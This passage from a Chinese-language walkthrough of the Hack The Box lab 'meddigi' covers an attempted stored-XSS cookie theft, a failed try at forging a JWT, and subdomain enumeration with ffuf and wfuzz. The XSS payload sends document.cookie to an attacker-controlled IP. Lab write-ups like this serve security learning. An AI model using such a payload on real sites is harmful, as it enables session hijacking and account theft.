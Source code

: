    ![image-20231029183528973](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311161143570.png)

   对于这种功能点，常见的可能存在的问题是可以窃取cookie，我尝试了下列负载窃取cookie，似乎不存在xss。

   ```
   <script>new Image().src="http://10.10.16.13/cool.jpg?output="+document.cookie;</script>
   ```



6. 登陆成功后发现当前用户的cookie中存在JWT，这里的aud参数似乎是用户身份标识。尝试对抗JWT来伪造其他用户，但是并不知道其他用户身份，简单尝试了几次失败后暂时放弃。

   ![image-20231029185358429](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311161143095.png)

   ​		目前没有找到其他有用的攻击点，先来详细探测一下虚拟主机名

   

   

### 1.2.2 子域名站点测试

1. 之前使用gobuster此时枚举到一个子域名  `monportail.meddigi.htb`，状态码是400，无法正常访问，换用其他工具枚举

2. 使用ffuf

   ```
   └─# ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -u http://10.10.11.238/ -H 'Host:FUZZ.meddigi.htb'
   
   [snip]
   aacelearning            [Status: 302, Size: 143, Words: 9, Lines: 2, Duration: 440ms]
   3com                    [Status: 302, Size: 143, Words: 9, Lines: 2, Duration: 437ms]
   13                      [Status: 302, Size: 143, Words: 9, Lines: 2, Duration: 522ms]
   aaaowa                  [Status: 302, Size: 143, Words: 9, Lines: 2, Duration: 522ms]
   [snip]
   ```

   可以看到有许多响应的size是143，这种是无效的访问，利用--fs来过滤掉这种结果

   ```
   └─# ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -u https://meddigi.htb/ -H 'Host:FUZZ.meddigi.htb' -fs 143
   ```

3. 使用wfuzz，这边换用一个较小的字典

   ```
   └─# wfuzz -c -Z -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u https://meddigi.htb/ -H "Host: FUZZ.meddigi.htb" --hw 24 
   
   =====================================================================
   ID           Response   Lines    Word       Chars       Payload                                            
   =====================================================================
   
   000000001:   404        6 L      24 W       315 Ch      "www"                                              
   000000003:   404        6 L      24 W       315 Ch      "ftp"                                              
   000000047:   404        6 L      24 W       315 Ch      "news"                                             
   000000007:   404        6 L      24 W       315 Ch      "webdisk"                                          
   000000050:   404        6 L      24 W       315 Ch      "wiki"                                             
   000000031:   404        6 L      24 W       315 Ch      "mobile"                                           
   000000048:   200        56 L     162 W      2976 Ch     "portal"                                           
   000000046:   404        6 L      24 W       315 Ch      "img"                                              
   ```